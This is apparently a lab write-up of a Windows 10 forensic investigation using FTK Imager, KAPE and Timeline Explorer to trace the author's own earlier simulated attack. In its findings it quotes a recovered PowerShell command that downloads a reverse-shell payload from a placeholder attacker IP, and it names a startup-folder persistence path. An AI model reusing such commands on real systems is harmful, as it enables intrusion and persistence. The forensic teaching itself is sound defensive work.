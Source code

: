 # WINDOWS FORENSICS

## OBJECTIVE:

The goal of this phase was to perform a forensic investigation on a compromised Windows 10 system. This included collecting targeted artifacts, analyzing system activity to trace attacker behavior, and constructing a clear timeline of the intrusion.

## INTRODUCTION:

This project is a follow-up to my earlier Windows 10 red team simulation, where I compromised a lab machine using reverse shells, set up persistence, and carried out post-exploitation activities.

In this second phase, I approached the same machine from a forensic analyst’s perspective, capturing disk images, extracting key artifacts, and analyzing them with dedicated tools to identify traces of the attacker’s activity, including payload files, suspicious commands, and network indicators pointing to the attacker's system.

## TOOLS USED:
- FTK Imager
- Kroll Artifact Parser and Extractor (KAPE)
- Timeline Explorer

---

## WALKTHROUGH:

## ARTIFACT ACQUISITION
I started by using FTK Imager to collect both targeted and broad artifacts:
| Artifact                | Path                                                            |
| ----------------------- | --------------------------------------------------------------- |
| Master File Table (MFT) | `C:\$MFT`                                                       |
| Event logs              | `C:\Windows\System32\winevt\Logs`                               |
| NTUSER registry hive    | `C:\Users\<username>\NTUSER.DAT`                                |
| SYSTEM registry hive    | `C:\Windows\System32\config\SYSTEM`                             |
| SOFTWARE registry hive  | `C:\Windows\System32\config\SOFTWARE`                           |
| User’s directory        | `C:\Users\<username>` (where payloads & artifacts were dropped) |

I used FTK Imager to create a disk image `.001`, consolidating these artifacts, ensuring proper evidence integrity.

---

## EVIDENCE TRANSFER
I securely copied the `.001` disk image from the compromised Windows system to my dedicated forensics workstation.

---

## EXAMINING THE DISK IMAGE
On my forensics machine:

- I loaded the `.001` image back into FTK Imager.
- Used FTK Imager to mount and extract the contents of the disk image, effectively recreating the file system for analysis.

---

## PARSING THE ARTIFACTS
Next, I launched KAPE (Kroll Artifact Parser and Extractor), pointed it to the extracted image contents, and configured it:
- Selected key targets (like registry hives, event logs, MFT).
- Selected modules to parse this data into structured outputs.
- Set a destination folder for processed results.

Then, I executed the task.
KAPE processed the evidence and produced multiple Excel sheets (CSV/XLSX) containing parsed data.

---

## MANUAL ANALYSIS
- I loaded these sheets into Timeline Explorer to get a powerful pivot table-style view.
- This helped me filter and sort by timestamps, path names, process names, and more.

---

## FINDINGS — TRACING THE ATTACKER
Through this analysis, I found clear artifacts of the attack:

- Persistence:
  - Located the reverse shell payload copied to the Windows startup folder.
    Example:
    ```
    C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\payload.pyzw
    ```
  - Verified timestamps (Created, Modified, Accessed) showing exactly when persistence was established.

- Temp staging folder:
  - Found the `Temp` directory created by the attacker under `C:\Users\Public\Documents\Temp`.

- Command line evidence in Event Logs:
  - Found PowerShell and cmd commands in the Security/PowerShell logs.
  - Notably recovered the command that downloaded the payload:
    ```batch
    powershell -Command "Invoke-WebRequest -Uri http://<attacker_IP>/powershell_reverse.pyzw -OutFile C:\Users\Public\Documents\powershell_reverse.pyzw"
    ```
  - This revealed the attacker’s IP address: `<attacker_IP>`.

- Other footprints:
  - Evidence of the WinPEAS enumeration binary being executed.
  - Logs showing browser launches and other activity matching the attacker’s session.

---

## BUILDING A TIMELINE
Based on the parsed timestamps from the MFT, registry, and event logs, I reconstructed:
- When the initial reverse shell was executed.
- When the persistence payload was copied to the startup folder.
- When WinPEAS was run to look for privilege escalation.

This provided a clear chronological picture of the attack.

---

## SUMMARY
- Through this phase, I was able to effectively:
- Collect and preserve targeted evidence using FTK Imager.
- Parse and analyze large volumes of data with KAPE and Timeline Explorer.
- Correlate multiple sources to identify malicious activity, persistence mechanisms, the attacker's IP, and a probable timeline of compromise.

---

## PROJECT SNIPPETS:

---

> ⚠️ Disclaimer:
> 
> This project was performed strictly for educational and ethical purposes in a controlled lab environment.
> Always ensure you have explicit authorization before performing any form of forensic analysis or incident response on systems.
